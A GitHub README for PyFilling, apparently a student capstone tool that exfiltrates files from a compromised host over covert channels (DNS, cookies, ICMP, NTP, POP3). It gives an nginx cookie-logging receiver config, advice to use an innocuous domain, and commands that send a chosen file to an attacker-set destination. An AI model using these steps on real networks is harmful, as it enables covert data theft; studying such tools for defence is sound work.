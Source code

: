 # PyFilling
PyFilling is the Capstone project of  @supermcpeanut, @a-levsky, & @tchrinder. PyFilling was designed to explore the possibility of developing an automated tool that can identify the optimal time, protocol, and packet size to perform data exfiltration on a compromised host based on its normal network traffic.

## Quick Overview
![Alt text](InternalStructure_PyFilling.jpg?raw=true "Internal Structure Overview")

*  Exfiltration Protocols
    *  DNS
    *  HTTP Cookie
    *  HTTPS Cookie
    *  ICMP
    *  NTP
    *  POP3 Authentication

## Installation & Preparation
In order to preform the exfiltration, the following steps are required:

- We wanted to use as few python servers as possible, as such we relied on Nginx to capture incoming cookies
    *  A simple method of installing and configuring Nginx on Ubuntu can be found [here](https://www.digitalocean.com/community/tutorials/how-to-install-nginx-on-ubuntu-16-04 "Digital Ocean Setup")

    *  If Nginx is used the following changes to etc/nginx/nginx.conf are required
```bash
    ##
    # Logging Settings
    ##
    log_format main '"cookies=$http_cookie;"';
    access_log /var/log/nginx/access.log main;
    error_log /var/log/nginx/error.log;
```
*It should be noted that this change will make the access_log only log cookies.*

*Addtionally to properly use our HTTPS exfiltration the server should have a certificate and an innocuous domain name.*

*Certbot makes it trivial to register a cert, found* [here](https://certbot.eff.org/ "Certbot Setup")

## Running the listeners
All the Protocol listeners/servers need to be setup.
```bash
# serve.py:
# "-a", "--address": Used to specify the IP address or domain name
# "-i", "--protocol": Used to specify the listener protocol
# "-s", "--size": Not used anymore, previously used to specify the size of the receiving
python3 serve.py -a "<IP or Domain Name>" -i "DNS"
python3 serve.py -a "<IP or Domain Name>" -i "NTP"
python3 serve.py -a "<IP or Domain Name>" -i "POP3"
python3 serve.py -a "<IP or Domain Name>" -i "ICMP"
```

## Performing exfiltration
Performing exfiltration can be done in one of two methods:

*  By using PAS to conduct packet analysis and automate the exfiltration
```python
pip install -r requirements.txt
./pas.py
```
*  or by using the exfiltrator independently of PAS
```bash
# "-d", "--destination": Used to specify the destination IP address or domain name which the exfiltrated data will be sent too.
# "-f", "--file": Used to specify the file that will be exfiltrated
# "-i", "--protocol": Used to specify the protocol used during exfiltration
# "-s", "--size": Used to specify the size of each packet to be sent
./exfiltrator -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
python3 exfiltrator.py -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
```

## Acknowledgements
We wanted to thank the following people:

*  Anyone who had to put up with the stress of Adam slowly losing his mind. 
*  Nick for the general guidance & support. 
*  The works of @ytisf made building the exfiltration modules simpler.
*  De Mello Palheta for the immeasurable number of 4-shot americanos consumed.
*  Maker Pizza for the numerous pizzas eaten.
*  Lastly, @bitofeverything for coming up with the name PyFilling.  
